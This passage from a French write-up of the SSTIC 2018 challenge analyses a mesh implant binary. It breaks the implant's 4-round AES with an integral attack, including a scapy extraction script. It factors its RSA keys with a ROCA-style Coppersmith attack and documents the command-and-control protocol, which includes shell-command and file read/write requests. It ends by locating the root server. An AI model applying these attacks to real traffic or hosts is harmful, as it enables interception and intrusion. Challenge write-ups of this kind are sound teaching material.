.. [#] AES et Rijndael sont des algorithmes de chiffrement symétriques très semblables, AES étant le résultat de la standardisation de Rijndael. Comme ``/tmp/.f4ncyn0un0urs`` semble utiliser les deux noms, je choisis ici de n'utiliser que le nom « AES », même si l'algorithme effectivement utilisé est une variante d'AES.
.. [#] https://github.com/cforler/Ada-Crypto-Library/blob/a9c201d586f31b475802e04dfa1441e50d18d9ff/src/crypto-symmetric-algorithm-aes-tables.ads par exemple.

Les fonctions ``rijndaelEncrypt`` et ``rijndaelDecrypt`` prennent chacune 4 arguments:

* une structure contenant les sous-clés dérivées des clés AES utilisées (par ``rijndaelKeySetupEnc`` et ``rijndaelKeySetupDec``) ;
* le nombre de tours à effectuer ;
* l'adresse d'un bloc de 16 octets correspondant aux données à traiter (i.e. un « buffer source ») ;
* l'adresse d'un bloc de 16 octets où le résultat est écrit (i.e. un « buffer destination »).

Dans leurs appels à ces fonctions, ``scomm_send`` et ``scomm_recv`` utilisent 4 pour le nombre de tours, ce qui résulte en un chiffrement AES à 4 tours.
Comme AES utilise normalement au moins 10 tours, cette réduction du nombre de tours peut avoir pour effet d'affaiblir le chiffrement.
Dans le cas présent, il existe une attaque nommée « Attaque intégrale » (ou « Square attack ») qui permet de retrouver la clé de chiffrement très rapidement.
Cette attaque nécessite de disposer du résultat du chiffrement de 256 blocs qui ne diffèrent que d'un octet (i.e. un octet du message qui est chiffré a pris ses 256 valeurs possibles sans que les autres octets changent).

Une communication tracée
~~~~~~~~~~~~~~~~~~~~~~~~
:raw-latex:`\label{sect:1-comm-tracee}`

En revenant à la trace réseau initiale, il est possible de trouver une communication avec l'adresse IP et le port TCP qui ont été utilisés lors de l'exécution de ``/tmp/.f4ncyn0un0urs`` au moment de l'intrusion (``192.168.23.213:31337``), émise depuis ``192.168.231.123``.
Cette communication commence par 4 paquets de 256 octets, puis des paquets de tailles diverses sont échangés. La lecture de ``rsa2048_key_exchange`` permet de comprendre que:

* le premier paquet correspond à l'envoi de la clé publique RSA-2048 [#]_ de l'agent (``192.168.231.123``) au serveur qu'il contacte (``192.168.23.213``) ;
* le second correspond à l'envoi de la clé publique RSA-2048 du serveur à l'agent ;
* le troisième correspond à l'envoi de la clé de déchiffrement AES chiffrée avec la clé publique RSA du serveur, de l'agent au serveur ;
* le quatrième correspond à la clé de chiffrement AES qu'utilisera l'agent, qui est chiffrée avec sa clé publique et qui est envoyée par le serveur.

.. [#] Une clé publique RSA-2048 est constituée d'un module de 2048 bits (256 octets) et d'un exposant. Comme ``.f4ncyn0un0urs`` utilise toujours 65537 comme exposant (ce qui correspond à ``0x10001`` en hexadécimal), l'exposant n'est pas transmis sur le réseau.

Sans connaître les clés privées RSA utilisées, il n'est normalement pas possible de trouver les clés AES ainsi échangées à partir de la trace réseau. Je me concentre donc sur les paquets suivants, qui sont émis par la fonction ``scomm_send`` et décodés par la fonction ``scomm_recv``.
Ces paquets ont la structure suivante:

* un nombre entier de 4 octets (32 bits petit boutiste), qui déclare la taille des données qui suivent (vecteur d'initialisation et blocs chiffrés) ;
* un bloc de 16 octets (128 bits), qui définit le vecteur d'initialisation utilisé par le chiffrement AES-CBC des données qui suivent ;
* des blocs de 16 octets, qui sont des données chiffrées en AES-CBC.

En observant les paquets, je me rends compte que le vecteur d'initialisation est incrémental pour chacun des deux sens de communication: pour les données reçues par l'agent, il commence par ``00 00 00 00 ... 00``, puis celui du paquet reçu suivant est ``00 00 00 00 ... 01``, puis ``00 ... 02``, ``00 ... 03``, etc. ; et cela est également le cas pour les données envoyées par l'agent.
Dans le programme, cela est dû au fait que la fonction ``scomm_nextiv``, appelée par ``scomm_send`` pour calculer le prochain vecteur d'initialisation utilisé, ne fait qu'incrémenter ce vecteur.

De plus, en analysant la manière dont les messages qui sont chiffrés sont construits dans la fonction ``message_init``, les 8 premiers octets correspondent à une constante (``41 41 41 41 DE C0 D3 D1`` en hexadécimal) et les 8 suivants à un identifiant défini par l'option ``-i`` du programme (qui est ``babar007`` par défaut).
Ainsi les 16 premiers octets des messages d'une communication sont constants, et le premier bloc chiffré en AES-CBC ne varie donc qu'en fonction du vecteur d'initialisation. Comme le vecteur d'initialisation des 256 premiers messages d'un sens de communication ne varie que de un octet (qui itère de 0 à 255), l'attaque intégrale est possible !

Pour mener correctement l'attaque, il faut d'abord commencer à extraire les blocs chiffrés qui seront utilisés, ce que je fais à l'aide d'un script Python utilisant ``scapy``.
Comme certains paquets TCP sont retransmis dans la trace réseau (et y sont donc présents plusieurs fois), il faut ignorer ces retransmissions dans l'analyse.
Cela peut être réalisé avec la commande ``tshark``[#]_:

.. [#] https://www.wireshark.org/docs/man-pages/tshark.html

.. code-block:: sh

    tshark -r challenge_SSTIC_2018.pcapng.gz -w agent.pcap \
        "ip.addr == 192.168.23.213 and tcp.port == 31337 and !tcp.analysis.retransmission"

Le script Python suivant permet d'extraire les blocs chiffrés utilisés du fichier ``agent.pcap`` produit:

.. code-block:: python

    #!/usr/bin/env python3
    import binascii, json, struct
    from scapy.all import rdpcap, IP, TCP

    # Parcourt les paquets du fichier agent.pcap et extrait le contenu des paquets TCP
    # de chaque sens de la communication agent-serveur
    tcp_contents = {'send': b'', 'recv': b''}
    for pkt in rdpcap('agent.pcap'):
        # Détermine si l'agent envoie ou reçoit des informations
        flow = "%s:%s-%s:%s" % (pkt[IP].src, pkt[TCP].sport, pkt[IP].dst, pkt[TCP].dport)
        if flow == '192.168.231.123:49734-192.168.23.213:31337':
            tcp_contents['send'] += bytes(pkt[TCP].payload)
        elif flow == '192.168.23.213:31337-192.168.231.123:49734':
            tcp_contents['recv'] += bytes(pkt[TCP].payload)
        else:
            raise RuntimeError("Unknown flow %r" % flow)

    # Extrait l'IV et le premier bloc de chaque message
    fistblocks = {direction: [] for direction in tcp_contents.keys()}
    for direction, content in tcp_contents.items():
        # Ignore les 4 premiers paquets de 256 octets
        offset = 512
        while offset < len(content):
            size = struct.unpack('<I', content[offset:offset + 4])[0]
            assert 32 <= size <= 0x4000
            iv = content[offset + 4:offset + 20]
            first_block = content[offset + 20:offset + 36]
            offset += 4 + size

            # Le vecteur d'initialisation est incrémental donc correspond à la
            # position à laquelle est insérée le bloc
            assert struct.unpack('>QQ', iv) == (0, len(fistblocks[direction]))
            fistblocks[direction].append(binascii.hexlify(first_block).decode('ascii'))

    with open('capture_firstblocks.json', 'w') as fp:
        json.dump(fistblocks, fp=fp, indent=2)

Il est possible de mener une attaque intégrale avec les blocs ainsi extraits.
En cherchant une implémentation de cette attaque, j'ai trouvé un script écrit dans le cadre d'un challenge de sécurité informatique[#]_, qui décrit cette attaque et fournit un script Python la réalisant.
En modifiant les variables définissant les blocs chiffrés au début du programme et en exécutant le script, j'obtiens:

.. [#] https://github.com/p4-team/ctf/tree/0440ca11448aaefed95801eafa5646a6d41f021c/2016-03-12-0ctf/peoples_square

.. code-block:: sh

    # Communication du serveur à l'agent
    solved [76, 26, 105, 54, 47, 224, 3, 54, 246, 168, 70, 15, 243, 61, 255, 213]
    # Donc en hexadécimal : 4c1a69362fe00336f6a8460ff33dffd5

    # Communication de l'agent au serveur
    solved [114, 255, 128, 54, 217, 32, 7, 119, 209, 233, 122, 91, 225, 211, 245, 20]
    # Donc en hexadécimal : 72ff8036d9200777d1e97a5be1d3f514

En utilisant ces clés, je peux maintenant déchiffrer le contenu des échanges entre l'agent et le serveur qu'il a contacté.

Un RSA très ROCAilleu
~~~~~~~~~~~~~~~~~~~~~

Même si je dispose maintenant des clés AES ayant servi au chiffrement de la communication étudiée, je m'intéresse également à la manière dont sont générés les bi-clés RSA-2048 par la fonction ``rsa2048_gen``.
La génération d'un bi-clé RSA repose sur la création de deux grands nombres premiers (de l'ordre de :raw-latex:`$2^{1024}$`), généralement nommés :raw-latex:`$p$` et :raw-latex:`$q$`.
La clé publique RSA est constituée d'un exposant public, :raw-latex:`$e$`, qui est ici toujours 65537[#]_, et d'un module, :raw-latex:`$N = p q$`.
La clé privée RSA est constituée d'un exposant privé, :raw-latex:`$d$`, qui est l'inverse modulaire de :raw-latex:`$e$` modulo :raw-latex:`$(p - 1)(q - 1)$`[#]_.

.. [#] https://en.wikipedia.org/wiki/65,537
.. [#] dit autrement, :raw-latex:`$e$` est calculé de sorte que :raw-latex:`$(p - 1)(q - 1)$` divise :raw-latex:`$(d e - 1)$`

Dans ``/tmp/.f4ncyn0un0urs``, la fonction ``rsa2048_gen`` génère deux nombres premiers en utilisant la fonction ``genPrimeInfFast`` puis calcule la clé publique et la clé privée en respectant l'algorithme que je viens de décrire.
Pour générer un nombre premier, ``genPrimeInfFast`` utilise une structure qui est initialisée par la fonction ``init_genPrime``. Cette dernière fonction calcule deux constantes utilisées dans la génération de :raw-latex:`$p$` et :raw-latex:`$q$`:

* un nombre :raw-latex:`$g$` (pour « générateur ») de 492 bits, dont le contenu est présent à l'adresse ``0x4a9200`` (symbole ``gen_p`` de ``/tmp/.f4ncyn0un0urs``, qui fait 62 octets) ;
* un nombre :raw-latex:`$M$` qui est la primorielle[#]_ de 701, c'est à dire le produit de tous les nombres premiers de 2 à 701 inclus.

.. [#] https://fr.wikipedia.org/wiki/Primorielle

``genPrimeInfFast`` génère un grand nombre aléatoire et un petit nombre aléatoire (entre 0 et :raw-latex:`$2^{51}$`), que je note :raw-latex:`$a$` et :raw-latex:`$r$`.
Ensuite la fonction calcule un nombre :raw-latex:`$p$` selon la formule suivante, et recommence la génération des nombres aléatoires si :raw-latex:`$p$` n'est probablement pas premier[#]_:

.. [#] Tester la primalité d'un nombre est un problème mathématique complexe pour lequel il existe des heuristiques raisonnables. La fonction ``genPrimeInfFast`` utilise ``mpz_probab_prime_p(p, 30)`` pour déterminer la primalité de :raw-latex:`$p$`, qui garantit que la probabilité qu'un nombre détecté comme premier ne soit pas premier est inférieure à :raw-latex:`$1/4^{30}$`, selon la documentation, https://gmplib.org/manual/Number-Theoretic-Functions.html.

.. raw:: latex

    \begin{equation*}
        p = (r + 6925650131069390) \times M + (g^a \mbox{ mod } M)
    \end{equation*}

Cet algorithme ressemble étrangement à celui qui était utilisé dans une bibliothèque cryptographie qui a été cassée par la publication « The Return of Coppersmith's Attack: Practical Factorization of Widely Used RSA Moduli »[#]_ (ROCA) en octobre 2017.
Cette bibliothèque utilisait la formule:

.. [#] https://crocs.fi.muni.cz/_media/public/papers/nemec_roca_ccs17_preprint.pdf

.. raw:: latex

    \begin{equation*}
        p = k \times M + (65537^a \mbox{ mod } M)
    \end{equation*}

Le papier de recherche de ROCA définit :raw-latex:`$M$` en fonction de la taille de clé RSA voulue, et utilise le produit des 126 premiers nombres premiers pour une clé RSA-2048, ce qui correspond bien à la primorielle de 701.
Dans ce papier, il est indiqué que factoriser une clé RSA-2048 générée avec l'algorithme décrit prendrait 45,98 ans et coûterait 40305 dollars américains en location de serveur Amazon AWS.
Toutefois, le générateur :raw-latex:`$g$` utilisé dans ``/tmp/.f4ncyn0un0urs`` est différent de celui utilisé dans le papier, 65537.
Avec un peu de chance, cela affaiblit encore plus l'algorithme de génération des nombres premiers et rend possible la factorisation de la clé publique en temps raisonnable.

Le papier évalue la complexité de l'algorithme comme dépendant principalement de « l'ordre » du générateur :raw-latex:`$g$` dans le groupe des inversibles de :raw-latex:`$\mathbbm{Z}/M\mathbbm{Z}$`, qui est le plus petit nombre :raw-latex:`$ord$` tel que:

.. raw:: latex

    \begin{equation*}
        g ^{ord} \mbox{ mod } M = 1
    \end{equation*}

Comme la décomposition de :raw-latex:`$M$` en nombres premiers est directe à obtenir[#]_ et montre qu'il est « friable » (les diviseurs premiers sont petits), le calcul de l'ordre de :raw-latex:`$g$` est rapide:

.. [#] il s'agit du produit de tous les nombres premiers de 2 à 701, ce qui donne la décomposition en nombres premiers

.. raw:: latex

    \begin{equation*}
        ord = 4140287278063689488476992884875650946986538534402358400
    \end{equation*}

Cet ordre semble trop grand pour espérer faire aboutir la factorisation d'une clé RSA-2048 en moins de quelques jours.
Pour réduire la complexité, le papier indique une astuce, dans son paragraphe « 2.3.3 Main idea. »: comme l'algorithme de factorisation est employé sur des nombres qui font :raw-latex:`$\lfloor{\log_2(M)+1}\rfloor = 971$` bits, mais n'a que besoin que de :raw-latex:`$\log_2(N)/4 \approx 512$` bits pour fonctionner, il est possible de remplacer :raw-latex:`$M$` par un nombre plus petit, :raw-latex:`$M'$`, à partir du moment où les conditions suivantes sont respectées:

* :raw-latex:`$M'$` doit être un diviseur de :raw-latex:`$M$`, afin de conserver la forme dans laquelle est décomposé :raw-latex:`$p$` ;
* :raw-latex:`$M'$` doit être supérieur à :raw-latex:`$2^{512}$`, afin que l'algorithme de factorisation employé (l'algorithme de Coppersmith) fonctionne ;
* l'ordre de :raw-latex:`$g$` dans le groupe des inversibles de :raw-latex:`$\mathbbm{Z}/M'\mathbbm{Z}$` doit être petit, car il détermine directement le temps d'exécution que prendra l'algorithme de factorisation.

Le papier indique quelle valeur de :raw-latex:`$M'$` est optimale pour le générateur 65537.
Pour transposer cette attaque pour le :raw-latex:`$g$` qui est utilisé par ``/tmp/.f4ncyn0un0urs``, il est nécessaire de refaire ce travail d'optimisation.
Pour cela, j'ai réutilisé les fonctions de calcul définies dans l'outil de prise d'empreinte de ROCA[#]_, en tentant d'obtenir :raw-latex:`$M'$` en divisant :raw-latex:`$M$` par l'un de ses facteurs premiers et en conservant le résultat si l'ordre de :raw-latex:`$g$` se retrouvait réduit.
Cette méthode a permis de passer d'un :raw-latex:`$M$` de 971 bits à un premier :raw-latex:`$M'$` de 710 bits avec un ordre de :raw-latex:`$g$` de 27663515880.

.. [#] https://github.com/crocs-muni/roca/blob/v1.2.12/roca/detect.py

Une fois cet ordre obtenu, comment factoriser effectivement les deux clés publiques RSA de la communication étudiée ?
Les auteurs du papier ROCA ont utilisé une bibliothèque pour SageMath[#]_, mais ayant par ailleurs trouvé au cours de mes recherches bibliographiques au sujet de ROCA un code SageMath relativement simple[#]_ qui implémente à peu près cette factorisation en utilisant l'implémentation de l'algorithme de Lenstra–Lenstra–Lovász (LLL) fournie par SageMath, je préfère utiliser ce second code en l'adaptant à mes besoins[#]_.

.. [#] https://www.cryptologie.net/article/222/implementation-of-coppersmith-attack-rsa-attack-using-lattice-reductions/
.. [#] https://blog.cr.yp.to/20171105-infineon3.txt
.. [#] en particulier, j'ai modifié les variables ``L`` et ``g`` en les valeurs de :raw-latex:`$M'$` et :raw-latex:`$g$`, ``n`` en celle de la clé publique RSA-2048 que je voulais factoriser, et ai ajouté une boucle ``for`` autour du code de factorisation pour factoriser en supposant connu un :raw-latex:`$p\mbox{ mod }M'$` qui est :raw-latex:`$g^i\mbox{ mod }M'$` avec :raw-latex:`$i$` une valeur de 1 à :raw-latex:`$ord$`

Après quelques minutes d'exécution, je me rends compte que cela prendra quelques jours pour procéder à toutes les tentatives de factorisation. Comme :raw-latex:`$M'$` a encore un peu moins de 200 bits de marge avant d'arriver à 512 bits, il devrait encore être possible de le réduire.
En tentant d'enlever des facteurs de :raw-latex:`$M'$` par paire ou par triplet, quand cela réduisait l'ordre de :raw-latex:`$g$`, je parviens à obtenir un :raw-latex:`$M'$` de 528 bits avec un ordre de :raw-latex:`$g$` de 924.
Ce :raw-latex:`$M'$` permet de factoriser la clé envoyée par l'agent au serveur en quelques secondes, mais pas celle envoyée par le serveur à l'agent.
En augmentant :raw-latex:`$M'$` en ajoutant les derniers facteurs premiers qui lui ont été enlevés, j'obtiens finalement un :raw-latex:`$M'$` de 556 bits avec un ordre de :raw-latex:`$g$` qui vaut 17556:

    :raw-latex:`$M'$` = 1402815059980187190712874383108895102161052570133342324046672808018986916271649262
    33224684617429383600061082975577526560835898499919563153700379304761409264588118078330

En utilisant ce :raw-latex:`$M'$`, la clé RSA envoyée par la machine compromise est factorisée en 2,9 secondes sur mon ordinateur[#]_, et celle envoyée par le serveur en 8,4 secondes.
En reprenant la formule utilisée pour générer un nombre premier à partir de deux nombres aléatoires :raw-latex:`$a$` et :raw-latex:`$r$`, j'obtiens les valeurs suivantes pour les nombres premiers obtenus:

.. [#] mon ordinateur utilise un CPU Intel(R) Core(TM) i7 3.40GHz

* Pour la clé de l'agent de la machine compromise:

    - :raw-latex:`$a = 2085906937225130949391888780182119044711529861348191122$` et :raw-latex:`$r = 296192245055570$`
    - :raw-latex:`$a = 2641761370873495806313775168527176737888173765287656655$` et :raw-latex:`$r = 494593908073432$`

* Pour la clé du serveur avec lequel l'agent a communiqué:

    - :raw-latex:`$a = 3260665468254802334308244523466733604492899823907547187$` et :raw-latex:`$r = 2094104643094744$`
    - :raw-latex:`$a = 3614440005626843566823201796455438124316990425701224160$` et :raw-latex:`$r = 1318068160568412$`

En disposant des nombres :raw-latex:`$p$` et :raw-latex:`$q$` pour chaque bi-clé RSA, je peux reconstruire les exposants privés et déchiffrer les deux messages chiffrés, qui contiennent les clés AES.
Le déchiffrement RSA brut résulte en les deux messages suivants, représentées en hexadécimal:

.. code-block:: xorg

    # agent -> serveur, chiffré avec la clé du serveur
    0000: 0002 5751 c5a3 6b4c e187 405e 857d ef7a
    0010: d9dd 429a 623e 684b 24b2 aed3 0132 28e8
    0020: 3e92 94b3 47f1 ff26 4505 1cd1 a44d 5022
    0030: a539 b52f 67bd 6b89 9f18 f89b 2afc bce2
    0040: da6a 7b57 5a91 69e7 aa2e d113 e1ed 821d
    0050: ae46 e6c5 37a5 7778 db60 34b2 c77e 763f
    0060: 7178 d0e2 2c9e 3212 ce42 4812 8c60 9905
    0070: 21cc ca40 545b 2954 c510 05c1 ef6e 4269
    0080: 60de c2bf dd9c a9fd 273e e9a1 ae8e 57ee
    0090: c1e8 d5ce 93e3 11cf 6a61 eb58 1a9a aca0
    00a0: 7c17 b614 6bdc 2450 afcf 2086 d4e3 5556
    00b0: b8ff 3e4d 5527 909f b704 f9e8 95d8 3742
    00c0: 66e8 1967 dd82 f0d4 92c8 7e4b e3a6 4874
    00d0: 0d4d b90a 35d5 56aa 2408 3f9c 4497 9317
    00e0: dc4c b803 6134 ac48 8779 6ed6 b293 4500
    00f0: 4c1a 6936 2fe0 0336 f6a8 460f f33d ffd5

    # serveur -> agent, chiffré avec la clé de l'agent
    0000: 0002 7a06 2fbf c2d2 7ecc c67d d4d1 7fbc
    0010: 2e97 9f44 8c83 57d5 0a15 421d 64d9 6dd2
    0020: 8ab5 0e75 6fcf ef1e 6d91 6d09 6554 e94f
    0030: 6702 4468 4fd6 279a 49ab 8e60 48bb 7477
    0040: 4908 2f6d bc96 d1f8 c383 98f2 bb48 5f0a
    0050: 4471 40de ad6d ee4a 85a7 2dbc 5d5a ef06
    0060: 17b8 a471 c897 d82d 12a5 2fda f88f f64d
    0070: 3535 817c 3889 487f e8dd caad 8c8f 1161
    0080: 7a36 5956 c20e 2115 f21e da63 26f4 4a53
    0090: b6da 3d4b 072a f55a 0763 64d2 be2b a85f
    00a0: 4bd1 5e01 cdc8 6d51 a4dd f6ef d804 8e5d
    00b0: 9c45 ea1d 2870 91d5 d856 f5dc 6416 29f1
    00c0: 2c78 7910 acf3 6458 54e6 27c0 c42e 27fe
    00d0: 408f c7b3 ea3c d698 97ef 551e 750e 5bea
    00e0: 5c51 d43d 9acc c1fa bbbe 51e0 6a30 4500
    00f0: 72ff 8036 d920 0777 d1e9 7a5b e1d3 f514

Chacun de ces blocs commence par un octet nul et un octet ``02``, suivis par beaucoup d'octets non nuls, et finit par un octet nul suivis de 16 octets.
Il s'agit d'un mécanisme d'encodage des données chiffrées par RSA décrit dans le standard PKCS #1 v1.5[#]_.
Dans chacun des cas, le message qui a été chiffré consiste uniquement en les 16 derniers octets, qui sont les clés AES qui sont utilisées:

.. [#] RFC 2313, https://tools.ietf.org/html/rfc2313

* ``4c1a 6936 2fe0 0336 f6a8 460f f33d ffd5`` est la clé AES avec laquelle le serveur chiffre les données qu'il envoie à la machine compromise, qui les déchiffre ;
* ``72ff 8036 d920 0777 d1e9 7a5b e1d3 f514`` est la clé AES avec laquelle l'agent de la machine compromise chiffre les données envoyées au serveur, qui les déchiffre.

Je retrouve ainsi les même clés que trouvées précédemment en cassant le chiffrement des messages.


Un filet qui est un arbre
~~~~~~~~~~~~~~~~~~~~~~~~~
:raw-latex:`\label{sect:1-protocole}`

En disposant les clés de chiffrement et déchiffrement AES qui ont été utilisées, il est possible de déchiffrer la communication qui a eu lieu entre la machine compromise et le serveur ``192.168.23.213:31337``. Le contenu déchiffré consiste en des messages clairement découpés (par opposition à un flot continu de données, comme ce peut être le cas avec TLS). La structure de ces messages peut être déterminée en analysant la fonction ``mesh_process_message``. Voici une représentation de cette structure sous forme de tableau dans lequel chaque ligne correspond à 16 octets:

.. code-block:: xorg

    |  0   1   2   3   4   5   6   7   8   9   A   B   C   D   E   F  |
    +--------------------------------+--------------------------------+
    | 41  41  41  41  DE  C0  D3  D1 |        nom ("babar007")        |
    +--------------------------------+--------------------------------+
    |        ID agent source         |      ID agent destination      |
    +----------------+---------------+--------------------------------+
    |    commande    |    taille     |          contenu ...           |
    +----------------+---------------+--------------------------------+
    | ... contenu ...                                                 |
    +-----------------------------------------------------------------+

Les 40 premiers octets correspondent à un en-tête qui apporte des informations au sujet du contenu du message.
Les « ID agents » correspondent à des identifiants qui peuvent être générés aléatoirement ou définis par l'option ``-i`` de ``/tmp/.f4ncyn0un0urs``, et permettent de transmettre des messages entre deux agents qui ne sont pas directement connectés.
En effet, quand ``/tmp/.f4ncyn0un0urs`` est lancé en tant qu'agent, il se connecte à un serveur et se place également en écoute sur un autre port TCP, permettant ainsi à un autre agent de se connecter à lui.
Il transmet alors les message que cet autre agent lui envoie et qui ne lui sont pas adressés [#]_.
Ceci permet en pratique de construire un réseau arborescent, dans lequel chaque agent a un *parent* (serveur auquel il se connecte) et des *enfants*, qui sont les agents qui s'y connectent.
La racine de cet arbre [#]_ n'est pas un agent, car il ne communique pas avec un serveur, mais est un serveur qui accepte des connections d'agents.
J'appelle donc *serveur racine* cette racine.

.. [#] ce comportement se remarque par l'appel, dans la fonction ``mesh_process_message``, à la fonction ``scomm_send`` pour transmettre de tels messages
.. [#] la racine de l'arbre est l'ancêtre commun à tous les agents

En revenant à l'analyse de la fonction ``agent_init``, je remarque que lorsque ``/tmp/.f4ncyn0un0urs`` est lancé avec l'option ``-c`` suivie du dernier flag intermédiaire trouvé, il ne se connecte pas à un serveur mais accepte des connexions.
J'imagine donc que le serveur racine consiste simplement en une instance de ``/tmp/.f4ncyn0un0urs`` exécutée comme cela, ce qui se révèlera être le cas plus tard[#]_.

.. [#] il s'agit d'une hypothèse importante, qui s'appuie sur une intuition, car la seule manière de vérifier cela serait de prendre le contrôle de la machine exécutant le serveur racine... ce que j'effectuerai plus tard

L'en-tête du message comporte deux champs qui sont en relation avec le contenu : une *commande* et une *taille*. La *taille* correspond au nombre d'octets du message à utiliser (en-tête et contenu).
En effet, le chiffrement opérant sur des blocs de 16 octets, les messages déchiffrés font une taille qui est un multiple de 16 octets. La présence du champ *taille* dans l'en-tête permet d'implémenter simplement le fait d'ignorer les octets qui ont été chiffrés en plus pour obtenir un multiple de 16 octets.
Je peux ainsi m'attendre à ce qu'un message légitime (du protocole de communication des agents) utilise un champ *taille* de valeur inférieure ou égale à celle du message effectivement chiffré.
Diverses vérifications dans le code de ``/tmp/.f4ncyn0un0urs`` empêchent le champ *taille* de dépasser ``0x4000`` (16 kilo-octets), mais ne le comparent pas toujours à la taille des données effectivement déchiffrées, ce qui peut amener à des vulnérabilités...
Je m'intéresserai à cela plus tard.

En ce qui concerne le champ *commande*, il s'agit d'un nombre entier (de 32 bits petit boutiste) décrivant ce en quoi consiste le contenu: une commande à exécuter, le résultat d'une telle commande, etc.
La lecture de l'implémentation des fonctions ``mesh_process_message``, ``mesh_process_agent_peering``, ``mesh_process_dupl_addr``, ``msg_process_job``, etc. permet de déterminer les commandes reconnues par ``/tmp/.f4ncyn0un0urs`` [#]_:

.. [#] les noms entre parenthèses correspondent à l'interprétation que j'ai faite des commandes, et permettent de m'en référer au lieu d'utiliser des nombres hexadécimaux peu clairs

* Si les trois bits de poids faible du second chiffre hexadécimal sont nuls, il s'agit d'une requête:

    * ``00000100 (PING)``: requête « Ping » (demande de renvoyer le contenu tel quel)
    * ``00000201 (CMD)``: requête d'exécution d'une commande *shell* (avec ``/bin/sh -c contenu``)
    * ``00000202 (PUT)``: requête d'ouverture en écriture du fichier indiqué dans le contenu
    * ``00000204 (GET)``: requête d'ouverture en lecture du fichier indiqué dans le contenu
    * ``00010000 (PEER)``: requête de *peering* entre un agent et son parent (le contenu est vide)
    * ``00020000 (DUP_ID)``: message envoyé du parent à un enfant indiquant que l'ID agent utilisé existe déjà (il est « dupliqué » ; le contenu est vide)

* Sinon, il s'agit d'une réponse à une requête:

    * le bit de poids faible du second chiffre hexadécimal indique une réponse ;
    * le second bit est utilisé pour les réponses qui peuvent s'étendre sur plusieurs messages (par exemple une lecture de fichier) ;
    * le troisième bit est utilisé pour signaler la fin d'une réponse qui s'étend sur plusieurs messages.

Par exemple :

* ``01000100 (PING_REPLY)``: réponse à une commande ``PING``
* ``01010000 (PEER_REPLY)``: réponse à une commande ``PEER``
* ``03000201 (CMD_CONTENT)``: extrait de la sortie de la commande, suite à une commande ``CMD``
* ``03000202 (PUT_CONTENT)``: extrait du contenu du fichier à écrire, suite à une commande ``PUT``
* ``03000204 (GET_CONTENT)``: extrait du contenu du fichier à lire, suite à une commande ``GET``
* ``05000201 (CMD_DONE)``: fin de l'exécution de la commande *shell*, suite à une commande ``CMD``
* ``05000202 (PUT_DONE)``: fin de l'écriture du fichier à écrire, suite à une commande ``PUT``
* ``05000204 (GET_DONE)``: fin de la lecture du fichier à lire, suite à une commande ``GET``

Par ailleurs, même si aucune fonction n'émet de message avec la commande ``xxx4xxxx``, un tel message est reconnu par ``mesh_process_message`` de manière similaire à la commande qu'il y aurait avec ``0`` à la place de ``4``. De manière plus générale, ``mesh_process_message`` est assez laxiste sur les commandes reconnues. Par exemple ``00000101``, ``00000102``, etc. sont aussi considérées comme des commandes ``PING``.

Lorsqu'un agent se connecte à un serveur, le premier message qu'il envoie après avoir établi un canal de communication sécurisé (par l'échange de clés AES) est un message ``PEER`` destiné à l'agent d'identifiant 0, qui est envoyé par la fonction ``mesh_agent_peering``. Cette fonction attend ensuite une réponse du serveur et implémente la logique qui est appliquée en fonction de cette réponse:

* si le serveur répond un message avec une commande ``DUP_ID`` (ce qui traduit un conflit d'ID agent utilisé), le programme regénère un ID agent aléatoire, envoie un autre message ``PEER``, et recommence la logique appliquée à la réception de la réponse du serveur.
* sinon, la fonction enregistre le contenu de la réponse, qui est utilisée par ``agent_main_loop`` pour trouver un autre serveur auquel se connecter si la connexion avec le serveur initial s'interrompt.

La fonction ``mesh_process_agent_peering`` implémente la logique côté serveur de cet échange. Lorsqu'un agent ou le serveur racine reçoit un message ``PEER`` provenant d'un enfant, une vérification est faite pour émettre un message ``DUP_ID`` si l'ID agent utilisé est déjà connu.
Dans le cas où l'ID agent n'était pas connu, il est enregistré dans des structures puis une réponse est envoyée avec comme contenu ce qui est utilisé pour établir de nouveau la connexion vers un serveur en cas d'erreur.
Il s'agit d'un tableau dont chaque élément fait 560 octets, qui référencie donc des serveurs, et qui contient pour chaque serveur une adresse IP et un port, un ID agent, des clés AES, etc.

La logique implémentée dans ``mesh_agent_peering`` et ``mesh_process_agent_peering`` permet alors de comprendre que le message ``PEER`` initial est transmis de parent en parent jusqu'au serveur racine et que la réponse reçue contient une structure de 560 octets pour chaque ancêtre sauf le parent permettant de s'y connecter[#]_.

.. [#] lorsqu'un agent se connecte à un autre agent, qui devient son « parent » dans le réseau, ce parent lui transmet donc les informations du grand-parent, de l'arrière-grand-parent, etc. de l'agent, jusqu'au serveur racine

La racine de l'arbre
~~~~~~~~~~~~~~~~~~~~

Maintenant que j'ai quelques éléments permettant de comprendre la communication effectuée par ``/tmp/.f4ncyn0un0urs``, il est temps de revenir encore une fois à la trace réseau.
En utilisant les clés AES, je réussis à déchiffrer les messages échangés avec ``192.168.23.213:31337`` [#]_.
Le premier message est bien une commande ``PEER``, qui est émise avec l'ID agent source ``0x28e48f9f80ddf725``.
Le serveur y répond avec l'ID agent ``0xdf8e9f2b91cee2d4`` et un contenu qui fait 560 octets.
Ceci signifie d'une part que ``192.168.23.213:31337`` n'est pas le serveur racine mais un agent, et d'autre part que ``192.168.23.213:31337`` est directement connecté au serveur racine [#]_.

.. [#] la reconstitution de l'échange est disponible dans la figure :raw-latex:`\ref{fig:timeline-agent}`, section :raw-latex:`\ref{sect:1-synthese}`
.. [#] le contenu du message est en effet constitué d'un seul bloc de 560 octets

Le contenu de la réponse à la commande ``PEER`` commence par les 16 octets suivants: ``00 00 00 00 00 00 00 00 02 00 8f 7f c3 9a 69 0c``. Les 8 premiers correspondent à l'ID agent du serveur racine, ``0``, et les 8 suivants correspondent à une structure ``sockaddr_in`` [#]_ décrivant les informations de connexion TCP/IP au serveur racine:

.. [#] http://man7.org/linux/man-pages/man7/ip.7.html

* ``sin_family = 2`` correspond à ``AF_INET`` ;
* ``sin_port = 0x8f7f`` correspond au port TCP 36735 ;
* ``sin_addr.s_addr = 0xc39a690c`` correspond à l'adresse IP ``195.154.105.12``.

Donc au moment de l'attaque, le serveur racine écoutait en ``195.154.105.12:36735``.
En essayant rapidement de m'y connecter, je me rends compte que le serveur est encore actif ! Le mandat initial précisait:

    « Votre mission, si vous l'acceptez, consiste donc à identifier le serveur hôte utilisé pour l'attaque et de vous y introduire [...] »

La première partie est réalisée et je peux donc passer à la suite.

Avant cela, je jette un coup d'œil aux messages échangés avec la machine compromise après la réponse à la commande ``PEER``.
